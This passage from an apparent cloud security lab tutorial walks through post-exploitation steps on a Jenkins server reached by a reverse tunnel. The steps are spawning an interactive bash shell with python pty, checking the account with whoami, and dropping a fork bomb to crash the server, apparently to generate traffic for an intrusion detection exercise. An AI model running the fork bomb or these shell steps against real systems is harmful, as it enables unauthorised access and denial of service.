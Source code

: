 5. Access the shell of Jenkins server.

    ```
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```

    (Output)

    <img src="images/ids06.png" alt="ids06.png"  width="400" />

6. You are now logged into the Jenkins server via reverse tunnel. Check which account you’re using:

    ```
    whoami
    ```

    (Output)

    <img src="images/ids07.png" alt="ids07.png"  width="290" />

7. Drop a simple fork bomb to crash the Jenkins server.

    ```
    :(){ :&:;};:
    ```

8.  After a few seconds, abort the session. **CTRL+C**. Enter `y`.

9.  Exit the Attacker instance and Cloud Shell.  
    ```
    exit
    exit
    exit
    ``` 

    (Output)
